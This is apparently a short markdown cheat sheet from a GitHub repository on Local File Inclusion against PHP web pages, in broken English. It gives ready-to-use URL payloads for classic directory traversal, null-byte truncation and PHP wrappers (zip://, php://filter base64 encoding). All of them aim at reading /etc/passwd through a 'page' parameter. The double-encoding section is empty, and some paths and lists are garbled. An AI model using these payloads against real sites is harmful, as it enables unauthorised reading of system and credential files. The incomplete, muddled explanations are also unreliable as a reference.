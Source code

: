 # LFI (Local File Inclusion)

<img src="https://github.com/Asthral/CheatSheetTool/blob/main/Schema/File%20Uploads/file-upload-sheetcheatschema.png">

## 1. Classique

**Explanation :** Why use the variable "page" for include other file. And ../ for return to folder before. 
**Example :** http://www.exemple.com/?page=example.php
http://www.exemple.com/?page=../../../etc/.passwd

## 2. Null byte

**Explanation :** .php was incremented automaticaly to photo, like lang=eng, so we use %00 for separate de extension added. 
**Exemple :** http://www.exemple.com/?page=photo
http://www.exemple.com/?page=../../../etc/passwd%00

## 3. Double encoding

**Explanation :**
**Exemple :** http://www.exemple.com/?page=
http://www.exemple.com/?page=

## 4. Wrappers

**Explanation :** wrapper is for apply filter. We have :
phar://
zip://
**Example :** zip://tmp/file.zip%23shell.php
tar://
php://
**Exemple :** http://www.exemple.com/?page=/etc/.passwd (permission denied)
http://www.exemple.com/?page= php://filter/convert.base64-encode/resource=/etc/.passwd
